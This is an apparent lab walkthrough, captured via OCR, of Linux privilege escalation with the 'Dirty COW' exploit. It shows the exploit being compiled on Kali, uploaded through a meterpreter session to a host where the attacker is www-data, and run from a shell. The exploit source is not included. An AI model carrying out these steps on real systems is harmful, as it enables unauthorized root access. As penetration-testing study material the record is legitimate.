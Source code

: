 ```
```

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

```
┌──(root㉿kali)-[~/Downloads]
└─# mv 40839.c dirty.c                                                                                   
                                                                                                                                                                                             
┌──(root㉿kali)-[~/Downloads]
└─# ls
dirty.c
                                                                                                                                                                                             
┌──(root㉿kali)-[~/Downloads]
└─# gcc -pthread dirty.c -o dirty -lcrypt                           
                                                                                                                                                                                             
┌──(root㉿kali)-[~/Downloads]
└─# ls
dirty  dirty.c
```

```
meterpreter > pwd
/tmp
meterpreter > upload /root/Downloads/dirty
[*] uploading  : /root/Downloads/dirty -> dirty
[*] Uploaded -1.00 B of 17.27 KiB (-0.01%): /root/Downloads/dirty -> dirty
[*] uploaded   : /root/Downloads/dirty -> dirty
meterpreter > shell
Process 6726 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu-14:/tmp$ whoami
whoami
www-data
www-data@ubuntu-14:/tmp$ chmod +x dirty
chmod +x dirty
www-data@ubuntu-14:/tmp$ ./dirty
./dirty
./dirty: /lib/x86_64-linux-gnu/libcrypt.so.1: version `XCRYPT_2.0' not found (required by ./dirty)
./dirty: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./dirty)
www-data@ubuntu-14:/tmp$ ls  
ls
dirty
linux-exploit-suggester.sh
www-data@ubuntu-14:/tmp$ rm dirty
rm dirty
```

```
meterpreter > upload /root/Downloads/dirty.c
[*] uploading  : /root/Downloads/dirty.c -> dirty.c
[*] Uploaded -1.00 B of 4.89 KiB (-0.02%): /root/Downloads/dirty.c -> dirty.c
[*] uploaded   : /root/Downloads/dirty.c -> dirty.c
meterpreter > getuid
Server username: www-data
meterpreter > cd /tmp
meterpreter > shell
Process 10811 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu-14:/tmp$ ls -al
ls -al
total 108
drwxrwxrwt  2 root     root      4096 Oct 27 15:21 .
```